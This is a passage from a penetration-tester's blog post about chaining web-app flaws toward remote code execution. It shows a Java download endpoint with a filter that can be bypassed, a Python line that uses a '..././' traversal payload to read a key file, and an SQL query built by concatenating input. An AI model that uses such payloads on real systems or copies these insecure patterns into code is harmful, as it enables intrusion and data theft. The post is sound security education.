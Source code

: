 ```yaml
---
title: "sunday scaries: exploiting web apps"
date: 2024-09-29T13:42:35-04:00
draft: false
type: "post"
---
```


during a recent penetration test, i encountered two linked web apps that i thought would be good case studies for a blog post. let's call them Ren + Stimpy.

Ren is a custom-built web app, designed to manage user interactions + content. users can upload/download content, manager user roles, and interact with the database in the backend. 

Stimpy handles uploaded invoices and user accounts, dealing with a variety of file uploads.

as you'll see, i was able to chain together path traversal, SQL injection, arbitrary file uploads, and type juggling attacks to achieve RCE [Remote Code Execution], and how i assembled the full exploit script piece-by-piece.

i began by analyzing the **download** functionality in Ren. 

```java
@GetMapping({"/download"})
public ResponseEntity<byte[]> getImage(@RequestParam("id") String id) {
    try {
        byte[] image = this.downloadService.getPDF(id.replace("../", ""));
        HttpHeaders headers = new HttpHeaders();
        headers.add("Content-Disposition", "attachment; filename=ren.pdf");
        headers.add("Cache-Control", "no-cache, no-store");
        return ((BodyBuilder)ResponseEntity.ok().headers(headers)).contentType(MediaType.APPLICATION_PDF).body(image);
    } catch (Exception var4) {
        logger.error(var4.getMessage());
        return ResponseEntity.notFound().build();
    }
}
```

this function attempts to filter out path elements like `../`, but this can be bypassed. it filters out `../` from the `id` parameter, but it doesn't account for bypasses like `..././`, which can allow attackers to access files outside the intended directory. 

by injecting a crafted path (`..././`), i was able to retrieve the file `config/uuid`, that contained an encryption key used to secure tokens.

```python
uuid = session.get(target + '/download?id=..././conf/uuid').text
```

next, i analyzed the **administrative** functionality. there's a rather glaring SQL injection vulnerability in the `/admin/users/category?id=` parameter.

```java
public List<User> getUsersWithPostsInCategory(String categoryId) throws Exception {
    String sql = "SELECT u.id, u.username, '***' as password, u.isAdmin, u.isActive, u.email " + "FROM users u LEFT OUTER JOIN stories s ON s.owner_id = u.id " + "LEFT OUTER JOIN categories c ON s.category_id = c.id WHERE s.category_id = " + categoryId;
    return this.template.query(sql, new UserRowMapper());
}
```
